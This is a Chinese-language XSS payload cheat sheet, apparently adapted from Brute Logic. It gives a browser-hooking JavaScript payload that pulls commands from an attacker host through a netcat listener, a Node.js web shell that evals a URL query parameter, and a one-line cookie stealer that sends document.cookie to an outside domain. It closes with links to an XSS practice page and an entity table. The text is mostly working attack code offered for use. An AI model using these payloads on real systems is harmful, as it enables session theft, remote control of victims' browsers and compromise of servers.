 

## 浏览器远程控制

**用于钩住浏览器并交互式地向其发送`Javascript`命令。在你注入中使用以下代码（而不是`alert(1)`），并在Unix终端运行以下`shell`脚本（监听器）。提供一个`HOST`作为主机名、IP地址或域名，以接受来自攻击者机器的命令。**

- **javascript payload**

```javascript
setInterval(function(){with(document)body.
appendChild(createElement('script')).src='//HOST:5855'},100)
```

- **监听器（终端命令）**

```shell
$ while :; do printf "j$ "; read c; echo $c | nc -lp 5855 >/dev/null; done
```



## Node.js Webshell

**用于存在漏洞的`Node.js`应用程序中创建`Web shell`。运行以下payload后，可以通过以下方法使用shell：`http://target:5855?cmd=my_node.js_command`。例如，弹计算器的命令为：`cmd=require('child_process').exec('gnome-calculator')` **

```javascript
require('http').createServer(function(req,res){res.end(1-
eval(require('url').parse(req.url,1).query.cmd))}).listen(5855)
```



## Cookie窃取

**用于从受害者处获取目标网站设置的所有cookie。无法获取受`httpOnly`安全标志保护的`Cookie`。在`URL`中，将`+`编码为`%2B`   **

```javascript
fetch('//brutelogic.com.br/?c='+document.cookie)
```



## XSS 在线测试页面

**用于练习 XSS 攻击 ，检查源代码以找到注入点。**

```url
https://brutelogic.com.br/xss.php
```



## HTML 实体表

**用于对字符进行 HTML 编码。**

```javascript
https://brutelogic.com.br/utils/charref.htm
```
